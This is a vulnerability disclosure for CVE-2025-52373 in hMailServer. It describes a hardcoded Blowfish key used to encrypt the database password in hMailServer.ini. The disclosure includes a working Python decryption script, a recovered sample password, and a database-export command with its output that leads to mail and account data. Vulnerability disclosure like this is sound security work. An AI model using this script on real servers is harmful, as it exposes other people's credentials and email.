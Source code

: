 # CVE-2025-52373

**Suggested description:** Use of hardcoded cryptographic key in `BlowFish.cpp` in hMailServer 5.8.6 and 5.6.9-beta allows attacker to decrypt passwords used in database connections from `hMailServer.ini` config file.
**VulnerabilityType Other:** CWE-321: Use of Hard-coded Cryptographic Key
**Vendor of Product:** hMailServer
**Affected Product Code Base:** hMailServer - 5.8.6, 5.6.9-beta
**Affected Component:** `hmailserver/source/Server/Common/Util/BlowFish.cpp`, `hMailServer.ini`
**Attack Type:** Local
**Impact Information Disclosure:** true
**Attack Vectors:** to exploit this, someone can simply adapt the existing functions in the source code into a tool to decrypt passwords that are used in connection strings to SQL servers
**Reference:**
hMailServer Exploit: [https://github.com/mojibake-dev/hMailEnum](https://github.com/mojibake-dev/hMailEnum)
Generic Exploit: [https://github.com/hmailserver/hmailserver](https://github.com/hmailserver/hmailserver)
Blog Post: https://mojibake.dev/belskysgambit
**Discoverer:** Eli Samara

**Detailed Explanation:**

Hardcoded password is set
``` cs
#define NOT_SECRET_KYE "THIS_KEY_IS_NOT_SECRET"
```
> line 20 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

and used 
```cs
   BlowFishEncryptor::BlowFishEncryptor ()
   {
 	   PArray = new DWORD [18] ;
 	   SBoxes = new DWORD [4][256] ;

      String sKey = NOT_SECRET_KYE;
      int iKeyLen = sKey.GetLength();
      BYTE *buf = new BYTE[iKeyLen + 1];
      memset(buf, 0, iKeyLen + 1);
      strncpy_s((char*) buf, iKeyLen+1, Unicode::ToANSI(sKey), iKeyLen);
      
      Initialize(buf, iKeyLen );
     
      delete [] buf;
   }
```
> line 29 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

This is then used to encrypt the database `Password` under `[Database]` in `hMailServer.INI`. 

The flow looks something like this. 
```
hMailServerInnoExtension.iss
	DBSetupQuick.exe
		InitializeInternalDatabase()
			CreateInternalDatabase()
				PasswordGenerator::Generate()
					ini_file_settings_->SetPassword(sPassword);
						WriteIniSetting_();
					
```

When the installer is told to create an internal database it runs the helper program DBSetupQuick.exe which performs a flow demonstrated above.

The value field written looks like this. `Password=fb8f1b06f59cf34cf99164835d6ae736`

when fed to this script 
```python
from Crypto.Cipher import Blowfish

def blowfish_decrypt_le(cipher_hex: str, key: bytes = b"THIS_KEY_IS_NOT_SECRET") -> str:
    # Convert hex to bytes
    ct = bytes.fromhex(cipher_hex)
    bs = Blowfish.block_size  # 8 bytes per block
    
    # Initialize ECB cipher
    cipher = Blowfish.new(key, Blowfish.MODE_ECB)
    plaintext_bytes = b''

    # Process each 8-byte block
    for i in range(0, len(ct), bs):
        block = ct[i:i+bs]
        # Reverse each 4-byte word to match encryption pre-transform
        le_block = block[:4][::-1] + block[4:][::-1]
        # Decrypt
        dec_le = cipher.decrypt(le_block)
        # Reverse words back to big-endian
        dec_be = dec_le[:4][::-1] + dec_le[4:][::-1]
        plaintext_bytes += dec_be

    # Strip trailing zero-byte padding
    plaintext_bytes = plaintext_bytes.rstrip(b'\x00')
    # Decode to UTF-8
    return plaintext_bytes.decode('utf-8', errors='ignore')


# Example self-test
if __name__ == "__main__":
    test_ct = "fb8f1b06f59cf34cf99164835d6ae736"
    recovered = blowfish_decrypt_le(test_ct)
    print("Recovered plaintext:", recovered)
```

I retrieve the value `Recovered plaintext: 5C7662397665`

This then unlocks the database and allows me to export it as a more readable .sql script that will generate a sqlite db using this tool https://github.com/ErikEJ/SqlCeToolbox

```cmd
> .\ExportSqlCe.exe "Data Source=hMailServer.sdf;Password=5C7662397665;" hMailServer.sql sqlite
Initializing....
Generating the tables....
Generating the data....
Generating the indexes....
Sent script to output file(s) : hMailServer.sql in 633 ms
```

With this you now have access to emails and account information.

